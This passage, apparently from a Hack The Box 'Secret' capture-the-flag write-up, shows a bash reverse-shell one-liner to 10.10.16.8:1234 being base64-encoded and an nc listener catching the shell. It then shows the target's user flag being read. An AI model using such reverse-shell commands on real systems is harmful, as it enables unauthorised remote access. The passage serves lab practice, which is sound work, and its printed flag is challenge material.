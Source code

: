 

```
┌──(root💀kali)-[~/htb/secret/local-web]
└─# echo -n "bash  -i >& /dev/tcp/10.10.16.8/1234  0>&1" | base64 -w 0                   1 ⨯
YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuOC8xMjM0ICAwPiYx  
```



<img src="htb_assets/images/secret/2022-06-04-13-15-06-image.png"/>

```
┌──(root💀kali)-[~/htb/secret]
└─# nc -lvnp 1234                           
listening on [any] 1234 ...
connect to [10.10.16.8] from (UNKNOWN) [10.129.93.191] 58312
bash: cannot set terminal process group (1143): Inappropriate ioctl for device
bash: no job control in this shell
dasith@secret:~/local-web$ id
id
uid=1000(dasith) gid=1000(dasith) groups=1000(dasith)
dasith@secret:~/local-web$ 

```

got the shell



```
dasith@secret:~$ ls
local-web  user.txt
dasith@secret:~$ cat user.txt
ae431ca06c47b7fd76925e209d9e57a2
dasith@secret:~$ 

```
